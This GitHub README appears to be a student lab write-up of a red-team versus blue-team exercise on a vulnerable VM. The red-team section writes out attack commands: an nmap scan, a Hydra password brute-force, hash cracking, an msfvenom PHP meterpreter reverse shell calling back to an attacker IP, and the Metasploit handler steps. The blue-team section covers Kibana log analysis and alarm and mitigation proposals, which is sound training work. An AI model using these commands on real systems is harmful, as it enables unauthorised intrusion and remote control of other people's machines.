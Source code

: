 # Red-Team-vs-Blue-Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ifconfig to find the IP address of the capstone machine, which was the machine we were attacking.

-	I then ran a Nmap command nmap -sV 192.168.1.105 to find the open ports

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

-	On the Kali machine, I ran the Hydra tool with the command hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder on it that used brute force into the wordlist and found the password for it.

-	I then logged into the secret folder and found a personal note in it.

-	After reading the personal note, I copied the hashed text that was was left for Ryanâ€™s account and put it on https://crackstation.net/ and cracked it on the website.


-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php

-	I then uploaded the shell into the webdav directory.

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	Msfconsole
	-	use exploit/multi/handler
	-	Set payload php/meterpreter/reverse_tcp
	-	set LHOST 192.168.1.90
	-	set LPORT 80
	-	Show options
	-	run

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command shell and went back to the root directory and then listed the directories and found the flag.



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested



Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
